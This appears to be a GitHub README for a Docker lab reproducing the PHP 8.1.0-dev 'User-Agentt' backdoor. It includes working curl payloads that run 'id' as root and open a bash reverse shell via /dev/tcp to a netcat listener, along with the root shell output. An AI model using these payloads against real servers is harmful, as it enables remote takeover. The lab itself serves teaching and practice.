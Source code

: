 # PHP 8.1.0-dev User-Agentt Backdoor Docker Lab & PoC
References:
- [PHP 8.1.0-dev User-Agentt Backdoor](https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor)
- [https://news-web.php.net/php.internals/113838](https://news-web.php.net/php.internals/113838)
- [https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d)
- [https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)
- [HackTheBox - Knife (PHP 8.1.0-dev User-Agentt)](https://twseptian.github.io/hackthebox%20machine/htb-machine-knife/)

If you doesn't have `docker-compose`. First let's install `docker-compose` to your operating system.
```bash
$ sudo apt-get install docker-compose
```
Docker command to build dockerfile
```bash
$ docker-compose up -d
$ docker ps -a                                                                                                                                          
CONTAINER ID   IMAGE                     COMMAND                  CREATED          STATUS          PORTS                                   NAMES
4607c17c5b06   vulhub/php:8.1-backdoor   "php -S 0.0.0.0:80 -…"   11 minutes ago   Up 11 minutes   0.0.0.0:8080->80/tcp, :::8080->80/tcp   php-81-dev_web_1
```
runs the service at `http://youripaddress:8080` or `http://0.0.0.0:8080`

![Check on your browser](pictures/web.png)


Command Injection
```bash
$ curl -H "User-Agentt: zerodiumsystem('id');" 'http://172.17.0.1:8080'
uid=0(root) gid=0(root) groups=0(root)

testing, hello world page
```
via burp suite

![Command Injection](pictures/cmdi.png)
Remote Code Execution using curl
```bash
$ curl -H "User-Agentt: zerodiumsystem(\"bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'\");" 'http://172.17.0.1:8080'
```
Output
```bash
$ nc -lvnp 4444                                                                                 
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.18.0.2.
Ncat: Connection from 172.18.0.2:35820.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@4607c17c5b06:/var/www/html# id
id
uid=0(root) gid=0(root) groups=0(root)
root@4607c17c5b06:/var/www/html# 
```
via burp suite

![Remote Code Injection](pictures/rce.png)
